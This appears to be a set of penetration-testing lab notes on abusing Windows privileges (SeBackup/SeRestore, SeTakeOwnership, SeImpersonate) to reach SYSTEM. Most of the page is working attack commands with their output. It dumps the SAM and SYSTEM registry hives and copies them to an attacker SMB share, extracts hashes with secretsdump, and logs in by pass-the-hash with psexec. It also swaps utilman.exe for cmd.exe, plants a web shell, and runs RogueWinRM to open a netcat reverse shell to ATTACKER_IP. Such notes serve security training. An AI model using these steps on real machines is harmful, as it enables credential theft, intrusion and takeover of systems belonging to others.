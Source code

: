 # Abusing dangerous privileges 

1. SeBackup/SeRestore abuse
2. SeTakeOwnership abuse
3. SeImpersonate/SeAssignPrimaryToken abuse

## Examples

### SAM and SYSTEM registry

This hack consists of copying the `SAM` and `SYSTEM` registry hives to extract the local Administrator's password hash.

1. Check currently assigned privileges:

    whoami /priv

The current account (`Backup`) is part of the "Backup Operators" group, which by default is granted the `SeBackup`and `SeRestore` privileges. Open a command prompt with the "Open as administrator" option to use these privileges.

2. Check privileges again:

```text
C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

2. Backup the SAM and SYSTEM hashes:

```text
C:\> reg save hklm\system C:\Users\Backup\system.hive
The operation completed successfully.

C:\> reg save hklm\sam C:\Users\Backup\sam.hive
The operation completed successfully.
```

3. Copy these files to the attacker machine using SMB or any other available method. For SMB, use impacket's `smbserver.py` to start a simple SMB server with a network share in the current directory.

```text
# mkdir share
# python3 /opt/impacket/examples/smbserver.py -smb2support -username Backup -password <password of Backup> public share
```

4. Use the copy command in the Windows machine to transfer both files to the attack machine:

```text
C:\> copy C:\Users\Backup\sam.hive \\<IP address attack machine>\public\
C:\> copy C:\Users\Backup\system.hive \\<IP address attack machine>\public\
```

5. Use impacket to retrieve the users' password hashes:

```text
# python3 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```

6. Use the Administrator's hash to perform a Pass-the-Hash attack and gain access to the target machine with `SYSTEM` privileges:

```text
# python3 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@<IP address attack machine>
...
C:\Windows\system32> whoami
nt authority\system
```

### Replacing Utilman

1. Open a command prompt using "Open as administrator" and check privileges:

```text
C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Disabled
```

2. Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen. It is run with `SYSTEM` privileges, so `SYSTEM` privileges can be gained by replacing the original binary with any payload. Because we can take ownership of any file, replacing it is trivial.

Take ownership of `utilman.exe`:

```text
C:\> takeown /f C:\Windows\System32\Utilman.exe

SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WINPRIVESC2\thmtakeownership".
```

3. Give the user you are logged in as, full permissions over `utilman.exe`

```text
C:\> icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
processed file: Utilman.exe
Successfully processed 1 files; Failed processing 0 files
```

4. Replace `utilman.exe` with a copy of `cmd.exe`:

```text
C:\Windows\System32\> copy cmd.exe utilman.exe
        1 file(s) copied.
```

5. To trigger utilman, lock the screen from the start button, then click on the "Ease of Access" button, which runs `utilman.exe` with `SYSTEM` privileges. 

```text
C:\Windows\system32> whoami
nt authority\system
```

### FTP impersonation

An FTP service running with user `ftp`. Without impersonation, if a user logs into the FTP server and tries to access ftp files, the FTP service would try to access them with its access token rather than Ann's.

With ftp token like this, we must manually configure specific permissions for each served file/directory. The`ftp` user has access to all files. If the FTP service were compromised at some point, the attacker would immediately gain access to all folders to which the ftp user has access.

If instead, the FTP service's user has the `SeImpersonate` or `SeAssignPrimaryToken` privilege, all of this is simplified a bit, as the FTP service can temporarily grab the access token of the user logging in and use it to perform any task on their behalf. If we manage to take control of a process with `SeImpersonate` or `SeAssignPrimaryToken` privileges, we can impersonate any user connecting and authenticating to that process.

1. Plant a web shell on `http://IP address target/`
2. Use the web shell to check for the assigned privileges of the compromised account and confirm we hold both privileges of interest.
3. Upload `RogueWinRM` to the target machine. The RogueWinRM exploit is possible because whenever a user (including unprivileged users) starts the BITS service in Windows, it automatically creates a connection to port `5985` using `SYSTEM` privileges. Port 5985 is typically used for the `WinRM` service, a port that exposes a Powershell console to be used remotely through the network.

4. Start a netcat listener:

```text
# nc -lvp 4442
```

5. Use the web shell to trigger the RogueWinRM exploit:

```text
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```

The `-p` parameter specifies the executable to be run by the exploit, which is `nc64.exe` in this case. The `-a` parameter is used to pass arguments to the executable. The exploit may take up to 2 minutes to work, so the browser may appear unresponsive for a bit. 

```text
c:\windows\system32\inetsrv>whoami
nt authority\system
```

## Notes

Privileges are rights that an account has to perform specific system-related tasks. These tasks can be from the privilege to shut down the machine up to privileges to bypass some DACL-based access controls.

### SeBackup/SeRestore

The SeBackup and SeRestore privileges allow users to read and write to any file in the system, ignoring any `DACL` in place. The idea behind this privilege is to allow certain users to perform backups from a system without requiring full administrative privileges. Having this power, an adversary can trivially escalate privileges on the system by using many techniques. 

### SeTakeOwnership

The SeTakeOwnership privilege allows a user to take ownership of any object on the system, including files and registry keys, opening up many possibilities for an attacker to elevate privileges. For example, search for a service running as SYSTEM and take ownership of the service's executable.

### SeImpersonate/SeAssignPrimaryToken

These privileges allow a process to impersonate other users and act on their behalf. Impersonation usually consists of being able to spawn a process or thread under the security context of another user.

## Resources

* [Privilege Constants (Authorization)](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)
* [Priv2Admin](https://github.com/gtworek/Priv2Admin)
